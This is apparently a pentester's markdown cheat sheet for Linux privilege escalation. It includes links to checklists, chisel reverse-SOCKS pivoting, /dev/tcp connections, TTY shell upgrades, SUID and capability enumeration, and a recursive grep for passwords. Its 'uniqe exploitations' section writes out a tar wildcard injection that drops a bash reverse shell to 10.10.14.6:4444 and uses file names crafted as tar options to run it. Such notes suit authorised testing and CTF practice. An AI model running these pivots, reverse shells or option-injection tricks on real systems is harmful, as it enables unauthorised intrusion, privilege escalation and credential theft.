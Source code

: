 - always check the `$PATH` value!
- some [check list](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- Siren's [notes](https://sirensecurity.io/blog/linux-privilege-escalation-resources/)
- restricted shell bypass [hacktricks](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/) , [exploit-db](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)
```bash
## General notes
# List systemd timers
systemctl list-timers
# port binding using ssh | localPort:socket:remotePort
ssh -L 4444:127.0.0.1:8080 soraka@172.17.0.2
# -- pivoting --
chisel server -p 3477 --socks5 --reverse
chisel client 10.10.10.10:3477 R:5000:socks
# file transfer using /dev/tcp
exec 3<>/dev/tcp/www.google.com/80
echo -e "GET / HTTP/1.1\r\nhost: http://www.google.com\r\nConnection: close\r\n\r\n" >&3
cat <&3
## 
exec 3<>/dev/tcp/$host/4444
cat <&3

```
##### upgrade shell
```bash
python3 -c "import pty; pty.spawn('/bin/bash')" || python -c "import pty; pty.spawn('/bin/bash')" || script -qc /bin/bash /dev/null
# Ctrl+Z
stty raw -echo;fg ; reset
stty columns 200 rows 200

```
- env variables
```bash

export TERM=linux
export TERM=xterm-256color
stty columns 156 rows 40
alias l='ls -lav --ignore=.?*'
alias la='ls -lav --color=auto'
alias ll='ls -lav --ignore=..'
alias ls='ls --color=auto'
alias ll='ls -lsaht --color=auto'
cd(){ pwd; builtin cd "$@"; pwd; ls -F; }
shopt -s autocd
function cd(){
    builtin cd "$@" && ls
}

export PATH="/usr/local/sbin:/usr/local/bin:/usr/bin:/bin:$PATH"

```

###### container enumerate
```bash
grep 'docker\|lxc' /proc/1/cgroup
mount  # show filesystem mount
df   # filesystem usage
```
##### manual enumeration
```bash
# network socket
ss -lntp # -n don't resolve service name
ss -ltp
# grep recursive 
grep -i -R password .
# find for files/folders owned by a user
find / -user soraka 2>/dev/null
# read secondary permissions
lsattr
# find suid/guid
find / -perm -4000 -type f ! -path "/dev/*" 2>/dev/null
find / -perm -2000 -type f ! -path "/dev/*" 2>/dev/null
find / -user root -perm -4000 -exec ls -la {} \; 2> dev/null
find / -perm /6000 2>/dev/null
# get caps
getcap -r / 2>/dev/null | head -n 50 
```
- uniqe exploitations
```bash
# tar wildcard
echo "bash -i >& /dev/tcp/10.10.14.6/4444 0>&1" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint=1"
```
ruby [priv esc](https://ihsansencan.github.io/privilege-escalation/linux/binaries/ruby.html)
##### kernals archives:
- [alpine](https://dl-cdn.alpinelinux.org/alpine/) linux archive
- [voidlinux](https://repo-default.voidlinux.org/live/) archive
- [nixos](https://releases.nixos.org/)


folders to check
```bash
/tmp/
/dev/shm/
/home/
/opt/
/etc/
/var/mail/
/var/www/
/


```
files to check
```bash
/etc/fstab
```
